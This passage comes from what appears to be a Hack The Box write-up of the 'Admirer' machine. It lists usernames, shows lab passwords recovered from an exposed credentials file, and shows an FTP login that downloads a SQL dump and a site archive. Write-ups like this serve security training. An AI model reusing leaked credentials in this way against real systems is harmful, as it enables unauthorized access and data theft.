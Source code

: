 6 potential users:

- penny wise
- rajesh nayyar
- amy bialik
- leonard galecki
- howard helberg
- bernadette rauch

- `credentials.txt`:

![admin dir](/assets/img/htb/machines/linux/easy/admirer/80-admin-dir-credentials.png)

Now we have some useful credentials:
- **Internal mail account**:
    + username &rarr; w.cooper@admirer.htb
    + password &rarr; fgJr6q#S\W:$P

- **FTP account**:
    + username &rarr; ftpuser
    + password &rarr; %n?4Wz}R$tTF7

- **Wordpress account**:
    + username &rarr; admin
    + password &rarr; w0rdpr3ss01!


### FTP (port 21)

```bash
$ ftp $TARGET
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:root): ftpuser
331 Please specify the password.
Password: %n?4Wz}R$tTF7
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
ftp> get dump.sql
local: dump.sql remote: dump.sql
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
226 Transfer complete.
3405 bytes received in 0.00 secs (1.0795 MB/s)
ftp> get html.tar.gz
```